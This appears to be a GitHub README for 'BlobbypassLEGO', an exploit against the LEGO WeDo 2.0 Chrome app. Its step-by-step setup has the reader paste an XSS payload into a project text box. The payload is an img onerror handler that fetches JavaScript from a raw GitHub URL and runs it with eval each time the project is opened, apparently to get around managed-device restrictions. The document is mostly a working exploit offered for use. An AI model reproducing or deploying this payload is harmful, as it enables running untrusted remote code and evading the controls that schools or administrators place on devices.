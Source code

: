 # BlobbypassLEGO
## LEGO WeDo 2.0 Webview Exploit that uses BlobbypassXSS

### Setup:
* First, install [WeDo 2.0 LEGO® Education](https://chromewebstore.google.com/detail/wedo-20-lego%C2%AE-education/pflionopdgpjckjkafnlamfmonjhccdh?hl=en-US) from the Chrome Webstore.
* Wait until it loads, then turn off your WiFi.
* Once you are in the project, click on the pencil in the top bar.
* Then, click the green document button.
* In the textbox, paste the following string:
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/Ajayadla/main.js/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
```
* Close LEGO WeDo 2.0 and re-enable your WiFi.

### How to use (after Setup):
* Open LEGO WeDo 2.0 (with WiFi turned on).
* Click the project you made when you were setting this up.
* Press the pencil in the top bar.
* Done!
  
#### This does not bypass Wi-Fi restrictions. If you want to do that, do [Blobwifi](https://blobby-boi.github.io/Blobwifi/).
